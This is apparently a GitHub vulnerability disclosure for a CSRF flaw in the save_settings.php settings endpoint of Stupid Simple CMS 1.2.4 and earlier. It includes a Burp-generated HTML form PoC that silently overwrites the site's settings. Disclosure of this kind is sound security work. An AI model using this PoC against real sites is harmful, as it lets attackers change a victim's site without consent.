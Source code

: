 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4


Stupid Simple CMS v1.2.4 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /save_settings.php

![1](https://github.com/kilooooo/cms/assets/52652352/28d6a408-dd6e-4fe4-876c-422a0982967b)


poc:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/admin/save_settings.php" method="POST">
      <input type="hidden" name="site&#45;title" value="Stupid&#32;Simple&#32;CMS&#32;123" />
      <input type="hidden" name="copyright&#45;info" value="Codelyfe&#46;github&#46;io" />
      <input type="hidden" name="website&#45;url" value="&#46;&#46;&#47;" />
      <input type="hidden" name="greeting&#45;txt" value="Join&#32;the&#32;virtual&#32;story&#32;today&#33;" />
      <input type="hidden" name="meta&#45;txt&#45;desc" value="Stupid&#32;simple&#32;CMS&#32;made&#32;for&#32;bloggers&#46;" />
      <input type="hidden" name="meta&#45;img" value="https&#58;&#47;&#47;image&#45;url&#46;com&#47;duck&#46;png" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/kilooooo/cms/assets/52652352/8a2ab92c-30c0-4f56-8494-ad74e5d67115)


successed

![3](https://github.com/kilooooo/cms/assets/52652352/3f02c4ca-8da4-4abe-92b7-13bc16bc9eba)
